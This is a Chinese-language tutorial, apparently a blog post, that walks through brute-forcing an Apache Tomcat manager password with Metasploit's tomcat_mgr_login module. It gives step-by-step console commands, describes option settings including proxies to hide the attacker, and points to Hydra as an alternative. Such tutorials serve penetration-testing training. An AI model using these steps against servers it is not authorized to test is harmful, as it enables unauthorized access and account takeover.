


# 使用Metasploit破解Tomcat密码

Apache Tomcat是Java web应用使用最广的服务程序，而且很多Tomcat服务都使用默认配置。本帖利用暴露的Tomcat web管理器破解密码，web管理器允许Tomcat管理员启动、停止、重启应用。

* Ubuntu 16.04安装Tomcat 8

### 下面我使用Metasploit暴力破解Tomcat管理员密码。

在启动Metasploit之前，先启动postgresql数据库服务：

```shell
# service postgresql start
```

启动Metasploit控制台：

```shell
# msfconsole
```

加载tomcat_mgr_login模块：

```shell
> use auxiliary/scanner/http/tomcat_mgr_login
```

显示选项：

```shell
> show options
```



设置目标主机：

```shell
> set rhosts 192.168.0.103
```

为了提高破解速度可以启动多个线程，但是不要太多：

```shell
> set threads 3
```

为了防止服务器负载过高，限制请求速度：

```shell
> set bruteforce_speed 3
```

开始破解破解：

```shell
> run
```

输出尝试登录信息，带+的是正确密码



如果要想在找到正确密码之后停止，设置 set STOP_ON_SUCCESS true。

***

更多选项：

* BLANK_PASSWORDS：测试空密码
* PASSWORD：测试指定密码
* PASS_FILE：字典文件
* Proxies：代理，隐藏自己
* RHOSTS：Tomcat主机，也可以是文件
* RPORT：Tomcat使用的端口
* STOP_ON_SUCCESS：找到密码之后停止
* USER_FILE：用户名文件
* USER_PASS_FILE：用户：密码组合文件

*****

也可以使用Hydra破解Tomcat密码，使用http-head选项，-L指定用户名文件，-P指定密码文件；

* [使用Hydra通过ssh破解密码](2016-4-16-kydra-crack-ssh-and-avoid-attack.md)
